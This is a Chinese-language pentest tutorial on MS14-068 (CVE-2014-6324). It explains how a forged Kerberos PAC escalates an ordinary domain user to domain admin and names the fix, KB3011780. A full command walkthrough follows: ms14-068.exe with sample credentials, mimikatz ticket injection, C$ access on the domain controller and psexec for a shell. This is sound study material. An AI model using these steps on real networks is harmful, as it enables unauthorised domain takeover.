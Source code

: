 ## **域控提权-CVE-2014-6324**
这是一个利用Kerberos服务漏洞的攻击，允许攻击者创建假冒的TGT。
该漏洞位于kdcsvc.dll域控制器的密钥分发中心（KDC）中。


**MS14-068 漏洞的原理：**（先了解Kerberos协议）
    微软在实现 Kerberos 时，虽然规定了 PAC （PAC中有用户的SID和所属权限组的SID）的签名算法，但允许客户端(域内主机)指定非标准的签名算法。密钥分发中心KDC 在验证 PAC 时，即使 PAC 不在 TGT（票据授权票据）中，KDC 也能解析和验证 PAC。攻击者可以利用这一点，在 TGT 之外的其他结构中放置伪造的PAC。
    攻击者登录域内自动获取一个普通TGT后，可以利用exp创建一个伪造的PAC声明自己是域管理员的TGT，用mimikatz将新的TGT替换掉本地的旧TGT，从而允许攻击者以高权限用户的身份访问服务。



**防御：**
为修复此漏洞，微软发布了安全更新 KB3011780，该更新通过更正 Kerberos 的 Windows 实现中的签名验证行为来解决漏洞。

**前提条件：**
1、需要域用户账号 密码
2、一台主机的系统权限。为了mimikatz
ms14-068.exe程序，mimikatz程序

**利用流程：**
```
whoami /user  查看自己域成员名和对应的SID

net time /domain 获取域控主机域名地址

net config workstation 查看自己的域名地址

ms14-068.exe -u 域成员名@域名 -p 域成员密码 -s 域成员sid -d 域控制器地址
ms14-068.exe -u mary@god.org -p admin!@#45 -s S-1-5-21-1218902331-2157346161-1782232778-1124 -d OWA2010CN-God.god.org

此时生成了伪造的TGT黄金票据文件如TGT_test02@test.lab.ccache，将其和mimikatz目录放一起

查看当前本地票据
mimikatz kerberos::list
清理本地票据缓存
mimikatz kerberos::purge
导入伪造的TGT
mimikatz kerberos::ptc "TGT_test02@test.lab.ccache"

查看会话导入成功
klist

再去请求资源时，自动触发携带伪造TGT请求TGS返回服务票据ST，成功请求到资源

尝试IPC连接域控文件C盘
dir \\OWA2010CN-God.god.org\C$ 

使用psexec获取域控反弹cmd
psexec \\OWA2010CN-God.god.org cmd
ipconfig
```
